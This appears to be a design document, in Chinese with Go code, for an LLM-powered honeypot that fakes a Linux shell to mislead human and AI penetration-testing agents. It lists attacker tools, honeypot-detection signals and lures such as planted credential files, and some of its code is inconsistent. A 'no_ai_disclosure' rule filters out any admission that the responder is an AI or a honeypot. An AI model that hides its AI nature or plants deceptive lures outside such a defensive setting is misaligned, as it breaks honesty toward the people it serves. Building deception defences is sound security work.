



# AlterHive LLM Agent Architecture — "增程式"欺骗引擎

> vNext note: Subnet Illusion 的新目标已经升级为“LLM 主导欺骗规划 + 多 Agent 协作 + 动态缓存 + 事件驱动重规划”。后续实现应优先参考 [subnet-illusion-llm-multi-agent-architecture.md](./subnet-illusion-llm-multi-agent-architecture.md)。本文保留早期增程式欺骗引擎、工具输出、数据库链、脏数据和 C2 模拟等详细模块设计。

## 0. 问题空间

AI 渗透 agent（如 PentestGPT、AutoPentest）和人类攻击者会通过以下方式识别蜜罐：

| 暴露信号 | AI Agent 检测方式 | 人类检测方式 |
|----------|------------------|-------------|
| 命令输出前后矛盾 | 历史比对 + 逻辑推理 | 肉眼观察 |
| OS 指纹不一致 | nmap vs uname vs /etc/os-release | 手动验证 |
| 服务状态不一致 | netstat vs 实际连接 | 试错 |
| 响应太快/太慢 | 统计分析 | 直觉 |
| 缺乏"脏数据" | 真实系统对比经验 | 经验判断 |
| 网络拓扑不合理 | traceroute + 路由表分析 | 网络知识 |
| 提权路径太顺利 | 自动化提权链验证 | CTF 经验 |

## 1. 架构总览

```
┌──────────────────────────────────────────────────────────────────────┐
│                        SSH/HTTP Connection                           │
│                      (gliderlabs/ssh)                                │
└──────────────────────┬───────────────────────────────────────────────┘
                       │
                       ▼
┌──────────────────────────────────────────────────────────────────────┐
│  Layer 0: Command Router (< 1ms)                                     │
│  ┌─────────────┐  ┌──────────────┐  ┌─────────────┐                 │
│  │ Fast-Path   │  │ Classifier   │  │ Direct-Exec │                 │
│  │ (rules)     │  │ (complexity) │  │ (exit/cd)   │                 │
│  └──────┬──────┘  └──────┬───────┘  └─────────────┘                 │
│         │                │                                           │
│         ▼                ▼                                           │
│  ┌─────────────────────────────────────┐                            │
│  │ Rule Engine (existing)              │                            │
│  │ netstat, cat, ls, whoami, id, ...   │                            │
│  └──────────────┬──────────────────────┘                            │
│                 │ needs LLM?                                         │
│                 ▼                                                    │
│  ┌─────────────────────────────────────────────────────────────┐    │
│  │ Layer 1-3: LLM Orchestrator                                 │    │
│  │ ┌───────────┐ ┌───────────┐ ┌───────────┐ ┌──────────────┐ │    │
│  │ │ Memory    │ │ Consist.  │ │ Strategy  │ │ Tools        │ │    │
│  │ │ Manager   │ │ Guard     │ │ Engine    │ │ (func call)  │ │    │
│  │ └─────┬─────┘ └─────┬─────┘ └─────┬─────┘ └──────┬───────┘ │    │
│  │       └──────────────┴─────────────┴──────────────┘         │    │
│  │                          │                                   │    │
│  │                    ┌─────▼─────┐                             │    │
│  │                    │    LLM    │                             │    │
│  │                    │ (GPT-4o / │                             │    │
│  │                    │  local 7B)│                             │    │
│  │                    └───────────┘                             │    │
│  └─────────────────────────────────────────────────────────────┘    │
└──────────────────────────────────────────────────────────────────────┘
```

## 2. Layer 0: Command Router

### 2.1 分类逻辑

```go
type CommandClass int

const (
    ClassDirect    CommandClass = iota // exit, cd, clear → 直接执行
    ClassFastPath                      // ls, cat, whoami, id, pwd → 规则引擎
    ClassComplex                       // mysql, python3, curl → 需要 LLM
    ClassAmbiguous                     // 未知命令 → 需要 LLM 判断
)

func ClassifyCommand(cmd string, session *SessionContext) CommandClass {
    base := strings.Fields(cmd)[0]
    switch {
    case isDirectCmd(base):
        return ClassDirect
    case isFastPathCmd(base):
        return ClassFastPath
    case isComplexCmd(base):
        return ClassComplex
    default:
        return ClassAmbiguous
    }
}

var fastPathCmds = map[string]bool{
    "ls": true, "cat": true, "head": true, "tail": true,
    "whoami": true, "id": true, "pwd": true, "hostname": true,
    "uname": true, "ifconfig": true, "ip": true, "netstat": true,
    "ss": true, "arp": true, "ps": true, "df": true, "free": true,
    "env": true, "printenv": true, "echo": true, "grep": true,
    "find": true, "which": true, "type": true, "file": true,
    "stat": true, "wc": true, "sort": true, "uniq": true,
    "history": true, "crontab": true, "sudo": true, "lsblk": true,
    "mount": true, "dmesg": true, "last": true, "w": true,
    "uptime": true, "date": true, "tree": true, "diff": true,
}

var complexCmds = map[string]bool{
    "mysql": true, "python3": true, "python": true,
    "curl": true, "wget": true, "ssh": true,
    "nmap": true, "nikto": true, "gobuster": true,
    "hydra": true, "john": true, "hashcat": true,
    "msfconsole": true, "sqlmap": true,
}
```

### 2.2 路由决策

- **Fast-path**: 直接调用现有 rule_engine，< 5ms
- **Complex**: 进入 LLM Orchestrator，200-2000ms
- **Ambiguous**: 先尝试 rule_engine，无匹配则走 LLM

## 3. Layer 1: Memory Manager — 防灾难性遗忘

### 3.1 三层记忆架构

借鉴 MemGPT 的分层思想，但针对蜜罐场景简化：

```
┌─────────────────────────────────────────┐
│  Working Memory (context window 内)      │  ← 最近 5 条 command/response
│  Token budget: ~2000 tokens              │
├─────────────────────────────────────────┤
│  Session Facts (结构化 KV store)         │  ← 关键事实，永不遗忘
│  - OS: Ubuntu 22.04                      │
│  - Hostname: staging-web-01              │
│  - IP: 192.168.56.10                     │
│  - User: root                            │
│  - CWD: /var/www/html                    │
│  - Discovered hosts: [...]               │
│  - PPF status: triggered                 │
│  - Attacker profile: {skill, behavior}   │
├─────────────────────────────────────────┤
│  Summary Archive (compressed history)    │  ← 每 20 条命令压缩一次
│  "Attacker scanned 192.168.56.0/24,     │
│   found SSH on .10/.20/.30/.60,          │
│   brute-forced .10 root:admin success,   │
│   enumerated MySQL users..."             │
└─────────────────────────────────────────┘
```

### 3.2 Session Facts — OpenViking L0/L1/L2 分层

借鉴 OpenViking 的分层上下文加载，将 Session Facts 分为三层，解决"全量注入导致上下文爆炸"问题：

```
L0: Always Inject (~200 tokens)         ← 每条命令都带，永不遗忘
L1: Context-Aware (~500-1000 tokens)    ← 根据命令语义选择性注入
L2: On-Demand (via Function Calling)    ← LLM 按需查询，不注入 prompt
```

```go
type SessionFacts struct {
    mu sync.RWMutex

    // ─── L0: 核心身份 (Always Inject, ~200 tokens) ───
    // 这些字段每条命令都注入 system prompt，永不遗忘
    OS          string // "Ubuntu 22.04.3 LTS"
    Kernel      string // "5.15.0-91-generic"
    Hostname    string // "staging-web-01"
    LocalIP     string // "192.168.56.10"
    User        string // "root"
    UID         int    // 0
    Shell       string // "/bin/bash"
    CWD         string // "/var/www/html"
    ShellMode   string // "bash" / "python" / "mysql"

    // ─── L1: 上下文感知 (Context-Aware, ~500-1000 tokens) ───
    // 根据当前命令语义选择性注入
    // 例: ssh user@X → 注入 X 的摘要; mysql → 注入 DB 摘要
    RecentHosts    []HostSummary         // 最近访问的 3 个主机摘要
    RecentCreds    []CredSummary         // 最近发现的 3 条凭据
    RecentFiles    []FileSummary         // 最近访问的 5 个文件摘要
    NetworkOverview string              // 当前网段摘要 (~50 tokens)

    // ─── L2: 完整数据 (On-Demand, via Function Calling) ───
    // LLM 通过 tool call 按需查询，不注入 prompt
    DiscoveredHosts   map[string]HostInfo   // IP → {hostname, ports, os_guess, ...}
    DiscoveredCreds   []Credential          // {user, pass, host, source, ...}
    DiscoveredFiles   map[string]string     // path → content
    NetworkNeighbors  []string              // ARP 表中的 IP
    CommandHistory    []HistoryEntry        // 完整命令历史

    // ─── 平台控制状态 (内部使用，不注入 LLM) ───
    PPFTriggered      bool
    DeceptionProfile  string
    EvidenceCount     int
    DeadEndCount      int
    ExpansionCount    int
    AttackerProfile   AttackerProfile
}

// L1 摘要结构 — 紧凑，控制 token
type HostSummary struct {
    IP       string   // "192.168.56.60"
    Hostname string   // "fin-db01"
    Ports    []int    // [22, 3306]
    Status   string   // "reachable" / "auth_failed"
}

type CredSummary struct {
    User   string // "root"
    Source string // "/var/backups/db.conf"
    Target string // "192.168.56.60"
}

type FileSummary struct {
    Path    string // "/var/backups/db.conf"
    Size    int    // 256
    Preview string // "host=192.168.56.60\nuser=root\n..." (前 100 字符)
}
```

### 3.3 L0/L1/L2 选择性注入

```go
// BuildContext 构建 LLM 上下文，按 L0/L1/L2 分层注入
func (mm *MemoryManager) BuildContext(cmd string, session *SessionContext) []Message {
    var messages []Message

    // 1. System prompt (L0: 核心身份，~200 tokens)
    messages = append(messages, Message{
        Role: "system",
        Content: mm.buildL0Prompt(session), // 永远注入
    })

    // 2. L1: 根据命令语义选择性注入 (~500-1000 tokens)
    l1Context := mm.buildL1Context(cmd, session)
    if l1Context != "" {
        messages = append(messages, Message{
            Role: "system",
            Content: l1Context,
        })
    }

    // 3. Summary archive (压缩的历史，~200 tokens)
    if summary := mm.GetLatestSummary(); summary != "" {
        messages = append(messages, Message{
            Role: "system",
            Content: fmt.Sprintf("## Activity summary:\n%s", summary),
        })
    }

    // 4. Working memory — 最近 3 条 (不是 5 条，省 token)
    recent := mm.GetRecentHistory(3)
    for _, h := range recent {
        messages = append(messages, Message{Role: "user", Content: h.Command})
        messages = append(messages, Message{Role: "assistant", Content: h.Response})
    }

    // 5. 当前命令
    messages = append(messages, Message{Role: "user", Content: cmd})

    return messages
}

// buildL1Context 根据命令语义选择性注入 L1 上下文
func (mm *MemoryManager) buildL1Context(cmd string, session *SessionContext) string {
    facts := session.GetFacts()
    var parts []string

    // SSH 命令 → 注入目标主机摘要
    if strings.HasPrefix(cmd, "ssh ") {
        ip := extractIP(cmd)
        if host, ok := facts.DiscoveredHosts[ip]; ok {
            parts = append(parts, fmt.Sprintf("Target host: %s (%s), ports: %v",
                ip, host.Hostname, host.OpenPorts))
        }
    }

    // MySQL 命令 → 注入数据库连接信息
    if strings.HasPrefix(cmd, "mysql") {
        if len(facts.DiscoveredCreds) > 0 {
            cred := facts.DiscoveredCreds[0]
            parts = append(parts, fmt.Sprintf("DB credentials: %s@%s (from %s)",
                cred.User, cred.Host, cred.Source))
        }
    }

    // cat/grep → 注入最近访问的文件
    if strings.Contains(cmd, "cat") || strings.Contains(cmd, "grep") {
        if len(facts.RecentFiles) > 0 {
            parts = append(parts, "Recently accessed files:")
            for _, f := range facts.RecentFiles {
                parts = append(parts, fmt.Sprintf("  %s (%d bytes)", f.Path, f.Size))
            }
        }
    }

    // 网络命令 → 注入网络概览
    if strings.Contains(cmd, "nmap") || strings.Contains(cmd, "ping") ||
        strings.Contains(cmd, "traceroute") {
        if facts.NetworkOverview != "" {
            parts = append(parts, facts.NetworkOverview)
        }
    }

    if len(parts) == 0 {
        return ""
    }
    return "## Context:\n" + strings.Join(parts, "\n")
}

// L2 查询通过 Function Calling 实现，LLM 按需调用
// 工具定义见 Layer 4: Tool Layer
```

type AttackerProfile struct {
    SkillLevel    string // "script_kid" / "intermediate" / "advanced" / "apt"
    BehaviorType  string // "scanner" / "exploiter" / "persistent" / "data_thief"
    ToolsUsed     []string
    CommandsTotal int
    UniqueCmds    int
    LastActivity  time.Time
}
```

### 3.3 记忆注入到 LLM 的 prompt 结构

> **已被 3.2 节的 L0/L1/L2 分层方案替代。** 新方案见上方 `BuildContext()` 和 `buildL1Context()` 实现。
```

### 3.4 防遗忘机制

```go
func (mm *MemoryManager) AfterCommand(cmd, response string, session *SessionContext) {
    // 1. 追加到 working memory
    mm.workingHistory = append(mm.workingHistory, HistoryEntry{
        Command: cmd, Response: response, Timestamp: time.Now(),
    })

    // 2. 更新 session facts
    mm.updateFacts(cmd, response, session)

    // 3. 超过阈值时压缩
    if len(mm.workingHistory) >= 20 {
        mm.compressHistory(session)
    }
}

func (mm *MemoryManager) compressHistory(session *SessionContext) {
    // 取前 15 条，用 LLM 压缩为摘要（异步）
    toCompress := mm.workingHistory[:15]
    mm.workingHistory = mm.workingHistory[15:]

    go func() {
        summary := mm.summarize(toCompress, session)
        mm.mu.Lock()
        mm.summaries = append(mm.summaries, summary)
        mm.mu.Unlock()
    }()
}

// updateFacts 从命令输出中提取关键事实
func (mm *MemoryManager) updateFacts(cmd, response string, session *SessionContext) {
    // 解析命令输出，更新 facts
    // 例: `cat /etc/os-release` → 更新 OS 字段
    // 例: `ifconfig` → 更新 IP 字段
    // 例: `ssh user@host` → 添加到 DiscoveredHosts
    // 这些用规则引擎实现，不走 LLM
}
```

## 4. Layer 2: Consistency Guard — 防逻辑断层 + 身份暴露

### 4.1 不变量系统

```go
// ConsistencyInvariant 定义一个不可违反的约束
type ConsistencyInvariant struct {
    Name     string
    Check    func(cmd string, response string, facts *SessionFacts) bool
    Fix      func(response string, facts *SessionFacts) string
    Severity string // "critical" / "warning"
}

var globalInvariants = []ConsistencyInvariant{
    {
        Name: "os_consistency",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            // uname -a 输出必须匹配 facts.OS
            if strings.Contains(cmd, "uname") {
                return strings.Contains(resp, facts.Kernel)
            }
            return true
        },
        Fix: func(resp string, facts *SessionFacts) string {
            // 替换为正确的内核版本
            return replaceKernelVersion(resp, facts.Kernel)
        },
        Severity: "critical",
    },
    {
        Name: "hostname_consistency",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            if strings.Contains(cmd, "hostname") {
                return strings.TrimSpace(resp) == facts.Hostname
            }
            return true
        },
        Fix: func(resp string, facts *SessionFacts) string {
            return facts.Hostname
        },
        Severity: "critical",
    },
    {
        Name: "ip_consistency",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            if strings.Contains(cmd, "ifconfig") || strings.Contains(cmd, "ip addr") {
                return strings.Contains(resp, facts.LocalIP)
            }
            return true
        },
        Fix: func(resp string, facts *SessionFacts) string {
            return injectIP(resp, facts.LocalIP)
        },
        Severity: "critical",
    },
    {
        Name: "no_markdown",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            return !strings.Contains(resp, "```")
        },
        Fix: func(resp string, facts *SessionFacts) string {
            return stripMarkdownFences(resp)
        },
        Severity: "critical",
    },
    {
        Name: "no_ai_disclosure",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            lower := strings.ToLower(resp)
            forbidden := []string{"language model", "AI assistant", "honeypot",
                "artificial intelligence", "I am an AI", "I'm an AI", "as an AI"}
            for _, f := range forbidden {
                if strings.Contains(lower, strings.ToLower(f)) {
                    return false
                }
            }
            return true
        },
        Fix: func(resp string, facts *SessionFacts) string {
            return "bash: " + strings.Fields(cmd)[0] + ": command not found\n"
        },
        Severity: "critical",
    },
    {
        Name: "no_duplicate_output",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            // 检查是否和最近的某个输出完全相同（LLM 幻觉）
            for _, h := range facts.RecentOutputs {
                if resp == h && cmd != h.Cmd {
                    return false
                }
            }
            return true
        },
        Fix: func(resp string, facts *SessionFacts) string {
            return "" // 返回空，让规则引擎接管
        },
        Severity: "warning",
    },
    {
        Name: "timing_consistency",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            // 响应中的时间戳必须合理递增
            // 例: `ls -la` 的时间戳不能早于上次 `touch` 的时间
            return true // TODO: 实现时间戳检查
        },
        Fix: func(resp string, facts *SessionFacts) string { return resp },
        Severity: "warning",
    },
    {
        Name: "path_consistency",
        Check: func(cmd, resp string, facts *SessionFacts) bool {
            // 如果之前 ls 显示了目录内容，cat 该目录下的文件必须存在
            // 如果之前 cat 显示了文件内容，再次 cat 必须一致
            return true // TODO: 实现路径一致性检查
        },
        Fix: func(resp string, facts *SessionFacts) string { return resp },
        Severity: "critical",
    },
}
```

### 4.2 一致性检查流程

```go
func (cg *ConsistencyGuard) Validate(cmd, response string, session *SessionContext) string {
    facts := session.GetFacts()

    for _, inv := range globalInvariants {
        if !inv.Check(cmd, response, facts) {
            log.Warn("consistency violation",
                "invariant", inv.Name,
                "severity", inv.Severity,
                "cmd", cmd)

            response = inv.Fix(response, facts)

            if inv.Severity == "critical" {
                // 记录到 dead-end tracker
                session.IncrementConsistencyViolation()
            }
        }
    }

    // 记录本次输出，用于后续重复检测
    facts.RecordOutput(cmd, response)

    return response
}
```

### 4.3 文件系统一致性

```go
// VirtualFileSystem 维护一个虚拟文件系统状态
type VirtualFileSystem struct {
    mu    sync.RWMutex
    files map[string]VirtualFile // path → file
}

type VirtualFile struct {
    Content   string
    ModTime   time.Time
    Owner     string
    Perms     string
    Size      int
}

func (vfs *VirtualFileSystem) ReadFile(path string) (VirtualFile, bool) {
    vfs.mu.RLock()
    defer vfs.mu.RUnlock()
    f, ok := vfs.files[path]
    return f, ok
}

func (vfs *VirtualFileSystem) WriteFile(path, content string) {
    vfs.mu.Lock()
    defer vfs.mu.Unlock()
    vfs.files[path] = VirtualFile{
        Content: content,
        ModTime: time.Now(),
        Size:    len(content),
    }
}

// 关键: cat 同一个文件两次必须返回相同内容
// ls 目录后再 cat 文件，文件必须在目录中出现过
```

### 4.4 Chain-of-Verification (CoVe) — LLM 自验证

借鉴 Meta 的 CoVe 论文 (arXiv:2309.11495)，在 LLM 生成响应后进行自我验证：

```go
// CoVeVerifier 对 LLM 生成的输出进行链式验证
type CoVeVerifier struct {
    llm ModelClient
}

func (cv *CoVeVerifier) Verify(cmd, response string, facts *SessionFacts) (string, bool) {
    // 仅对复杂输出触发（短输出直接通过不变量检查即可）
    if len(response) < 100 {
        return response, true
    }

    // Step 1: 从响应中提取可验证的声明
    claims := cv.extractClaims(response)
    if len(claims) == 0 {
        return response, true
    }

    // Step 2: 对每个声明生成验证问题
    // 例: 响应包含 "PID 1234" → 验证问题: "ps 输出中是否有 PID 1234?"
    for _, claim := range claims {
        if !cv.verifyAgainstFacts(claim, facts) {
            // 声明与已知事实矛盾，需要修复
            response = cv.fixContradiction(response, claim, facts)
        }
    }

    return response, true
}

func (cv *CoVeVerifier) extractClaims(response string) []Claim {
    var claims []Claim
    // 提取可验证的声明:
    // - 进程 ID (ps 输出中的 PID)
    // - 文件路径 (ls 输出中的路径)
    // - IP 地址
    // - 用户名/UID
    // - 时间戳
    // - 版本号
    return claims
}

func (cv *CoVeVerifier) verifyAgainstFacts(claim Claim, facts *SessionFacts) bool {
    switch claim.Type {
    case "hostname":
        return claim.Value == facts.Hostname
    case "ip":
        return claim.Value == facts.LocalIP
    case "os_version":
        return strings.Contains(facts.OS, claim.Value)
    case "kernel":
        return strings.Contains(facts.Kernel, claim.Value)
    case "user":
        return claim.Value == facts.User
    case "file_exists":
        _, exists := facts.DiscoveredFiles[claim.Value]
        return exists
    }
    return true // 无法验证的声明默认通过
}
```

### 4.5 Contradiction-Aware Prompting — 零成本一致性

在 L0 system prompt 中注入矛盾检测指令（零额外延迟，已整合到 `buildL0Prompt()`）：

```go
// 已整合到 buildL0Prompt() 的 RULES 部分:
// 6. Maintain consistency with all previously shown information.
// 7. If uncertain, use the most common/realistic value for this OS.
//
// 额外的 consistency 指令（通过 L1 注入，仅在需要时）:
const consistencyHints = `
CONSISTENCY: Before responding, verify:
- Output matches OS=%s, kernel=%s, hostname=%s
- No contradiction with previously shown files/processes/network
- If uncertain, use realistic defaults for this OS version`
```

### 4.6 Multi-Sample Consistency (高风险场景)

借鉴 SelfCheckGPT (arXiv:2303.08895)，对高风险输出做多采样验证：

```go
// MultiSampleVerifier 用于高风险场景（如提权、敏感文件访问）
type MultiSampleVerifier struct {
    llm       ModelClient
    threshold float64 // 一致性阈值 (0.8 = 80% 一致)
}

func (msv *MultiSampleVerifier) Verify(cmd string, facts *SessionFacts) (string, bool) {
    // 生成 3 个独立响应
    responses := make([]string, 3)
    for i := 0; i < 3; i++ {
        resp, _ := msv.llm.Complete(context.Background(), buildPrompt(cmd, facts))
        responses[i] = resp
    }

    // 计算一致性
    // 如果 3 个响应中有 2 个以上包含相同的关键信息，认为可信
    // 如果高度不一致，说明 LLM 在"编造"，回退到规则引擎
    consistency := msv.calculateConsistency(responses)

    if consistency < msv.threshold {
        // LLM 输出不可信，回退到规则引擎
        return "", false
    }

    // 返回多数一致的响应
    return msv.selectBestResponse(responses), true
}

// 仅在以下场景触发（不用于普通命令，太贵）:
// - sudo 提权成功后的输出
// - 读取 /etc/shadow 等敏感文件
// - SSH 登录远程主机
// - 数据库 dump 操作
func (msv *MultiSampleVerifier) ShouldVerify(cmd string) bool {
    return strings.Contains(cmd, "sudo") ||
        strings.Contains(cmd, "/etc/shadow") ||
        strings.Contains(cmd, "ssh ") ||
        strings.Contains(cmd, "mysqldump")
}
```

## 5. Layer 3: Strategy Engine — 欺骗策略 + 反 AI/反人类

### 5.1 策略类型

```go
type DeceptionStrategy struct {
    Name        string
    Condition   func(session *SessionContext) bool
    Execute     func(session *SessionContext, topology *VirtualTopology) StrategyAction
    Priority    int
    Cooldown    time.Duration // 防止策略过于频繁
}

type StrategyAction struct {
    Type        string // "inject_topology" | "leak_credential" | "plant_file" | "expand_service"
    Target      string
    Content     string
    Delay       time.Duration // 模拟真实延迟
}
```

### 5.2 反 AI Agent 策略

```go
var antiAIStrategies = []DeceptionStrategy{
    {
        Name: "credential_honey_trail",
        Condition: func(s *SessionContext) bool {
            // AI agent 常见模式: 快速扫描 → 发现密码文件 → 尝试登录
            return s.AttackerProfile.BehaviorType == "scanner" &&
                s.EvidenceCount >= 2
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            // 在 /var/backups/ 放一个看似真实的密码备份
            return StrategyAction{
                Type:    "plant_file",
                Target:  "/var/backups/db_backup.conf",
                Content: generateRealisticBackupConf(s),
            }
        },
    },
    {
        Name: "dead_end_expansion",
        Condition: func(s *SessionContext) bool {
            // AI agent 连续失败 5 次，需要给新路径
            return s.DeadEndCount >= 5 && s.ExpansionCount < 3
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            // 扩展拓扑，投放新的可达主机
            theme := selectThemeForExpansion(s)
            cidr := nextAvailableCIDR(t)
            return StrategyAction{
                Type:    "inject_topology",
                Target:  cidr,
                Content: theme,
            }
        },
    },
    {
        Name: "breadcrumb_leading",
        Condition: func(s *SessionContext) bool {
            // AI agent 在某个路径卡住，需要引导
            return s.DeadEndCount >= 3 &&
                s.LastActivityTime.After(time.Now().Add(-5*time.Minute))
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            // 在当前目录投放一个 "线索" 文件
            return StrategyAction{
                Type:    "plant_file",
                Target:  "./notes.txt",
                Content: generateBreadcrumb(s),
            }
        },
    },
    {
        Name: "complexity_trap",
        Condition: func(s *SessionContext) bool {
            // 检测到 AI agent 使用自动化工具（nmap/hydra/sqlmap）
            return len(s.ToolsUsed) >= 3
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            // 创建一个复杂的多层提权链，每一步都需要不同的技术
            // AI agent 的自动化工具链很难一次性走通
            return StrategyAction{
                Type:    "inject_complexity",
                Target:  "priv_esc_chain",
                Content: generateComplexPrivEscChain(s),
            }
        },
    },
}
```

### 5.3 反人类策略

```go
var antiHumanStrategies = []DeceptionStrategy{
    {
        Name: "realistic_timing",
        Condition: func(s *SessionContext) bool {
            return true // 永远生效
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            // 根据命令复杂度模拟真实延迟
            // nmap 扫描: 2-5 秒
            // cat 小文件: 50-200ms
            // grep 大文件: 500ms-2s
            return StrategyAction{
                Type:  "set_delay",
                Delay: calculateRealisticDelay(s.LastCommand),
            }
        },
    },
    {
        Name: "noise_injection",
        Condition: func(s *SessionContext) bool {
            // 每 10-20 条命令注入系统噪声
            return s.CommandsTotal%randomBetween(10, 20) == 0
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            // 注入真实的系统噪声
            noises := []string{
                "[12345.678901] systemd[1]: Started Session 42 of User root.",
                "[12345.678902] CRON[1234]: (root) CMD (test -x /usr/sbin/anacron)",
                "[12345.678903] sshd[5678]: Received disconnect from 10.0.0.1:11",
                "Broadcast message from root@staging-web-01 (somewhere):",
            }
            return StrategyAction{
                Type:    "inject_noise",
                Content: noises[randomIndex(len(noises))],
            }
        },
    },
    {
        Name: "imperfect_errors",
        Condition: func(s *SessionContext) bool {
            return true
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            // 真实系统有各种小毛病，蜜罐太"干净"反而可疑
            // 偶尔返回: 磁盘空间警告、daemon 重启、日志轮转
            return StrategyAction{
                Type:    "inject_imperfection",
                Content: generateRealisticImperfection(s),
            }
        },
    },
    {
        Name: "sudo_password_prompt",
        Condition: func(s *SessionContext) bool {
            // 人类执行 sudo 时期望看到密码提示
            return strings.HasPrefix(s.LastCommand, "sudo ") &&
                s.User != "root"
        },
        Execute: func(s *SessionContext, t *VirtualTopology) StrategyAction {
            return StrategyAction{
                Type:    "interactive_prompt",
                Content: "[sudo] password for " + s.User + ": ",
            }
        },
    },
}
```

## 6. Tool Layer — LLM Function Calling

### 6.1 工具定义

```go
var llmTools = []ToolDefinition{
    {
        Name: "resolve_service",
        Description: "Check if a service is listening on a specific host:port",
        Parameters: map[string]interface{}{
            "ip":       map[string]string{"type": "string", "description": "Target IP"},
            "port":     map[string]int{"type": "integer", "description": "Target port"},
            "protocol": map[string]string{"type": "string", "description": "tcp/udp"},
        },
    },
    {
        Name: "check_visibility",
        Description: "Check if target host is reachable from current position",
        Parameters: map[string]interface{}{
            "target_ip": map[string]string{"type": "string"},
        },
    },
    {
        Name: "get_host_info",
        Description: "Get detailed info about a virtual host",
        Parameters: map[string]interface{}{
            "ip": map[string]string{"type": "string"},
        },
    },
    {
        Name: "get_file_content",
        Description: "Get the content of a file on the virtual filesystem",
        Parameters: map[string]interface{}{
            "path": map[string]string{"type": "string"},
        },
    },
    {
        Name: "check_sudo_perms",
        Description: "Check what sudo permissions a user has",
        Parameters: map[string]interface{}{
            "user": map[string]string{"type": "string"},
        },
    },
    {
        Name: "list_processes",
        Description: "List running processes on the virtual host",
        Parameters: map[string]interface{}{},
    },
    {
        Name: "check_kernel_exploits",
        Description: "Check if kernel version is vulnerable to known exploits",
        Parameters: map[string]interface{}{
            "kernel_version": map[string]string{"type": "string"},
        },
    },
}
```

### 6.2 工具执行

```go
func (tl *ToolLayer) ExecuteTool(name string, args map[string]interface{},
    session *SessionContext, topology *VirtualTopology) string {

    switch name {
    case "resolve_service":
        ip := args["ip"].(string)
        port := int(args["port"].(float64))
        host := topology.GetHost(ip)
